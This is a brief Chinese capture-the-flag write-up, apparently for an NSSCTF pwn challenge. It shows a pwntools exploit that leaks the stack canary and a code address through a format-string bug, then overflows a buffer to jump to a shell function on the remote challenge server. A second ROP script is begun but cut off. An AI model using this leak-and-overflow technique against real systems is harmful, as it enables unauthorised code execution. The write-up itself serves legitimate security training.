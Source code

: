 ![alt text](image-10.png)
![alt text](image-11.png)
shell的地址是0x1228
可以用0x146f-0x1228得到这两个中间的偏移量，进行使用
用fm找到canary和函数的偏移量
![alt text](image-9.png)
接下来构造exp：
```python
from pwn import *
context.log_level = 'debug'
io = remote("node4.anna.nssctf.cn",28116)
 
payload = '%17$p'+'%19$p'
io.sendlineafter('name? ',payload)
io.recvuntil('Nice to meet you, ')
canary = int(io.recv(18),16)
addr = int(io.recv(14).decode(),16)
main = 0x146f
shell = 0x1228
offset = main-shell
shelladdr = addr-offset
 
io.recvuntil('Anything else? ')
payload = b'a'*(0x40-8)+p64(canary)+b'a'*8+p64(shelladdr)
 
io.sendline(payload)
io.interactive()
```
也可以计算基址，构造rop
```python
from pwn import *
context.log_level = 'debug'

local = 1
if local:
	p = process('ff')
else:
	p = remote('node4.anna.nssctf.cn',28116)
```